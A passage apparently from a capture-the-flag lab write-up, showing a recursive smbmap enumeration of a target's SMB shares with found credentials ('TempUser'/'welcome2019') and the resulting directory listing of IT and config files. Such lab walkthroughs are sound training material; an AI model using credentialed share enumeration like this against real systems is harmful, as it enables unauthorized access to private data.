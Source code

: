 
Trying to list everything with this new user and credentials:

{% highlight bash %}
$ smbmap -H 10.10.10.178 -R --depth 10 -u TempUser -p welcome2019
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.178...
[+] IP: 10.10.10.178:445        Name: 10.10.10.178                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        .                                                  
        dr--r--r--                0 Wed Aug  7 18:53:46 2019    .
        dr--r--r--                0 Wed Aug  7 18:53:46 2019    ..
        dr--r--r--                0 Wed Aug  7 18:58:07 2019    IT
        dr--r--r--                0 Mon Aug  5 17:53:41 2019    Production
        dr--r--r--                0 Mon Aug  5 17:53:50 2019    Reports
        dr--r--r--                0 Wed Aug  7 15:07:51 2019    Shared
        Data                                                    READ ONLY
        .\
        dr--r--r--                0 Wed Aug  7 18:53:46 2019    .
        dr--r--r--                0 Wed Aug  7 18:53:46 2019    ..
        dr--r--r--                0 Wed Aug  7 18:58:07 2019    IT
        dr--r--r--                0 Mon Aug  5 17:53:41 2019    Production
        dr--r--r--                0 Mon Aug  5 17:53:50 2019    Reports
        dr--r--r--                0 Wed Aug  7 15:07:51 2019    Shared
        .\IT\
        dr--r--r--                0 Wed Aug  7 18:58:07 2019    .
        dr--r--r--                0 Wed Aug  7 18:58:07 2019    ..
        dr--r--r--                0 Wed Aug  7 18:58:07 2019    Archive
        dr--r--r--                0 Wed Aug  7 18:59:34 2019    Configs
        dr--r--r--                0 Wed Aug  7 18:08:30 2019    Installs
        dr--r--r--                0 Sat Jan 25 19:09:13 2020    Reports
        dr--r--r--                0 Mon Aug  5 18:33:51 2019    Tools
        .\IT\Configs\
        dr--r--r--                0 Wed Aug  7 18:59:34 2019    .
        dr--r--r--                0 Wed Aug  7 18:59:34 2019    ..
        dr--r--r--                0 Wed Aug  7 15:20:13 2019    Adobe
        dr--r--r--                0 Tue Aug  6 07:16:34 2019    Atlas
        dr--r--r--                0 Tue Aug  6 09:27:08 2019    DLink
        dr--r--r--                0 Wed Aug  7 15:23:26 2019    Microsoft
        dr--r--r--                0 Wed Aug  7 15:33:54 2019    NotepadPlusPlus
        dr--r--r--                0 Wed Aug  7 16:01:13 2019    RU Scanner
        dr--r--r--                0 Tue Aug  6 09:27:09 2019    Server Manager
        .\IT\Configs\Adobe\
        dr--r--r--                0 Wed Aug  7 15:20:13 2019    .
        dr--r--r--                0 Wed Aug  7 15:20:13 2019    ..
        -r--r--r--              246 Wed Aug  7 15:20:13 2019    editing.xml
        -r--r--r--                0 Wed Aug  7 15:20:09 2019    Options.txt
        -r--r--r--              258 Wed Aug  7 15:20:09 2019    projects.xml
        -r--r--r--             1274 Wed Aug  7 15:20:09 2019    settings.xml
        .\IT\Configs\Atlas\
        dr--r--r--                0 Tue Aug  6 07:16:34 2019    .
        dr--r--r--                0 Tue Aug  6 07:16:34 2019    ..
        -r--r--r--             1369 Tue Aug  6 07:18:38 2019    Temp.XML
        .\IT\Configs\Microsoft\
        dr--r--r--                0 Wed Aug  7 15:23:26 2019    .
        dr--r--r--                0 Wed Aug  7 15:23:26 2019    ..
        -r--r--r--             4598 Wed Aug  7 15:23:26 2019    Options.xml
        .\IT\Configs\NotepadPlusPlus\
        dr--r--r--                0 Wed Aug  7 15:33:54 2019    .
        dr--r--r--                0 Wed Aug  7 15:33:54 2019    ..
        -r--r--r--             6451 Wed Aug  7 19:01:25 2019    config.xml